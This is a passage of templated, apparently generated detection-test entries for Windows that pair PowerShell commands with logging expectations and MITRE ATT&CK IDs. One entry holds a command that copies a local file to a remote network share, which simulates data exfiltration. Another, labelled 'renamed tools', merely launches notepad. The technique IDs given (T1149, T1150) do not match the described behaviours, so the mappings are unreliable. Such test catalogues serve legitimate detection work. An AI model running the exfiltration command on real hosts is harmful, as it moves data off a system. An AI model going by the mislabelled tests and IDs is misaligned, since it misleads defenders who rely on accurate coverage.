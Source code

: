 ### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell -c "Get-Content C:\data.txt | Out-File \\10.10.10.10\share\data.txt"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of copying data to removable media or network on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1149**


## ✅ T1150 – Malicious script execution using renamed tools

### Description
Simulates malicious script execution using renamed tools to evaluate detection capability for MITRE tactic **Execution**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -Command "Start-Process notepad.exe"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of malicious script execution using renamed tools on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1150**


## ✅ T1151 – Creation of scheduled tasks or services
